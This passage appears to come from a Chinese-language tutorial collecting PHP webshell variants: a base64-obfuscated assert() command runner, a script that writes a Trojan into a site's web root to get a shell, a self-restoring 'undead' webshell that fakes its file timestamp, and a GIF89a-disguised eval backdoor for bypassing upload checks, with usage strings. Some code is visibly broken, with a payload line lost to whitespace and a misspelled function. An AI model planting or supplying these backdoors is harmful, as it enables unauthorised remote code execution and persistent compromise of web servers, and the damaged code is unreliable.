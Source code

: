 ##### 六、base64加解密
```php
<?php
	$a=base_decode(YXNzZXJ0);
	$b=$a(base64_decode($_POST['cmd']));
?>
```

##### 七、写入木马
```php
<?php
	if(isset($_POST['filename']))
	{
		$d='data';
		$$d=$_POST['text'];  //$data
		$f='fp';
		$$f=fopen($_POST['filename'],'wb');  //$fp
		echo fwrite($fp,$data):"save success":"save fail";
		fclose($fp);
	}
?>
```

<font style="color:rgb(77, 77, 77);">这个代码通过在网站根目录下写一句话木马的方法，然后再去访问木马，从而getshell。</font>

##### <font style="color:rgb(77, 77, 77);">八、不死马</font>
```php
<?php
	                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ?>';  
	while(1){
		file_put_contents($file,$code);
		system('touch -m -d "2018-12-01 9:10:12" .index1.php');  //设置文件的编辑时间
	usleep(5000);
	}
?>
```

<font style="color:rgb(77, 77, 77);">实测时发现设置文件编辑时间那里会报错，可以选择把那一句删掉。</font>  
<font style="color:rgb(77, 77, 77);">用法：</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">?pass=shyshy&cmd=phpinfo();</font>`

##### 九、修改头文件
```plain
GIF89a
<script language="php">eval($_POST['shell']);</script> 
```

什么是GIF89a

    一个GIF89a图形文件就是一个根据图形交换格式（GIF）89a版（1989年7 月发行）进行格式化之后的图形。在GIF89a之前还有87a版（1987年5月发行），但在Web上所见到的大多数图形都是以89a版的格式创建的。 89a版的一个最主要的优势就是可以创建动态图像，例如创建一个旋转的图标、用一只手挥动的旗帜或是变大的字母。特别值得注意的是，一个动态GIF是一个 以GIF89a格式存储的文件，在一个这样的文件里包含的是一组以指定顺序呈现的图片。
